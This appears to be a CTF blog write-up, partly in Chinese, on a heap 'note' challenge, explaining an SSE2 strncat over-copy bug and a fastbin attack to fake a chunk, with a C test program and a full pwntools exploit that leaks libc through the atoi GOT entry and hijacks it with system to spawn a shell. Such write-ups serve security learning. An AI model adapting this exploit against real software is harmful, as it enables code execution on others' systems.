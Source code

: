```yaml
---
title: fast_bin_atk_note
date: 2018-08-15 13:51:13
tags: pwn heap
layout: post
---
```

a simple note problem 
some interesting thing about strcat
<!--more-->

# note

主要用到了fastbin atk
也有点house of spirit

漏洞点比较坑：
```
strncat(&tmp, new_ptr + 15, 0xFFFFFFFFFFFFFFFFLL);
```

sse2的优化导致的一些问题
2019的测试脚本：
```
#include <stdio.h>
#include <memory.h>
char as[0x800];
char bs_buf[0x800];
char* bs = bs_buf + 0xF;
void make_chars(char* buf, char c, size_t n)
{
 size_t i;
 for (i = 0; i < n; ++i)
 {
  buf[i] = c;
 }
 buf[i] = 0;
}

int main()
{

 for (int i = 1; i < 0x80; ++i)
 {
  memset(as, 0, 0x800);
  make_chars(as, 'A', i);
  make_chars(bs, 'B', 0x7F - i);
  memset(bs + (0x7F - i) + 1, 'C', 8);
  strncat(as, bs, 0xFFFFFFFFFFFFFFFF);
  printf("%d:%s\n", i,as + 0x80);
 }
 return 0;
}
```
发现个别因为系统对齐的原因某些情况下会将\0后面的一些东西也copy进去
所以可以里用这个漏洞向栈上写东西
恰好溢出后可以达到一个指针ptr
ptr在函数哪内将被free
所以通过构造可以得到一个fake_chunk
    因为后面需要用show泄漏所以选择bss上ptr可以通过name和address来控制自己的size和next chunk size
free之后再次malloc回来就可以写入某些地址然后通过show来泄漏
然后可以通过hijacking atoi来getshell
exp
```
from pwn import *

p=process('./note')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level='debug'
def new(length,x):
    p.recvuntil('--->>')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(str(length))
    p.recvuntil(':')
    p.sendline(x)

def app(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(x)

def re(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(x)

def show(id):
    p.recvuntil('--->>')
    p.sendline('2')
    p.recvuntil('id')
    p.sendline(str(id))
def debug():
	if 1:
		gdb.attach(p,'''
		b *0x400be1
		c
		''')	

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
atoi_got = 0x602088
p.readuntil("name:\n")
p.sendline("\x11"*56+'\x71')
p.readuntil("address:\n")
p.sendline(p64(0x00000020f71)*2)
t=93#sse lead a bug
new(0x80,"x"*t)
control=0x602120

app(0,"y"*(128-t)+p32(control))
atoi=0x602088
#debug()
new(0x60,p64(atoi))
show(0)
p.readuntil("is ")
data=p.readline()
data=data[:-1]
data=u64(data.ljust(8,"\x00"))
base=data-libc.symbols['atoi']
libc.address=base
log.info(hex(base))
############################HIJACK@@@@@@@@@@@@@@@@@@@@@@@@@@@
re(0,p64(libc.symbols['system']))
p.sendline("/bin/sh")
p.interactive()

```


